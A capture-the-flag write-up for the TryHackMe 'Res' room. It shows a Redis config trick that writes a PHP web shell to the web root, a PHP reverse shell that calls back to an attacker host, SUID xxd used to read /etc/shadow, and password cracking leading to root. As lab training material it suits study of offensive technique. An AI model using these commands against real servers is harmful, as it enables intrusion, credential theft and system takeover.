 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Res
# DESCRIPTION       . Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/res
```

```
sudo nmap -sSVC -T5 -p- 10.10.132.240 -oN res
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

6379/tcp open  redis   Redis key-value store 6.0.7
```

**PORT 80**

- Default apache installation page.

**PORT 6379**

- I used `redis-cli` to authenticate to the redis server. 

```
redis-cli -h 10.10.132.240
```

- By default, `redis` doesn't require authentication. However, I tried running the command `AUTH default default` and I got `OK` as an answer, so I assumed I was authenticated.

- After some googling around, I found out that you can use redis to write to files.

- This made me think that, considering we have apache running, we might be able to write a reverse shell and access it via the webserver running on port 80.

- To do this, I had followed the next steps:

```
10.10.132.240:6379> config set dir /var/www/html
OK
10.10.132.240:6379> config set dbfilename shell.php
OK
10.10.132.240:6379> set test "<?php system($_GET['cmd']); ?>"
OK
10.10.132.240:6379> save
```

- It's worth mentioning that this is working purely because `/var/www/html` is writable.

- Next, I've accessed the webshell by going to `http://IP/shell.php?cmd=`

- I used a URL-Encoded PHP reverse shell to connect back to my listener

```
php -r '$sock=fsockopen("IP",3131);exec("sh <&3 >&3 2>&3");'
```

```
http://IP/shell.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%22IP%22%2C3131%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

- After stabilising the shell, I started looking for privilege escalation vectors.

```
find / -type f -perm -04000 -ls 2>/dev/null

...
262073     20 -rwsr-xr-x   1 root     root        18552 Mar 18  2020 /usr/bin/xxd
...
```

- We have the SUID bit set for the `xxd` binary. This can be used to read from files that we don't have access to.

```
/usr/bin/xxd "/path/to/file" | xxd -r
```

- The user flag located in `/home/vianka/user.txt` is already readable.
- We can use `xxd` to read the root flag from `/root/root.txt`.

- However, if we read the `/etc/shadow` file and copy the hash of user `vianka`, we can easily crack the password, so we can escalate our privileges.

```
/opt/john/run/john hash 

b{redacted}1       (vianka)
```

- A simple `sudo -l` reveals that we have full access on the system.

```
User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

```
vianka@ubuntu:~$ sudo su

root@ubuntu:/home/vianka# 
```

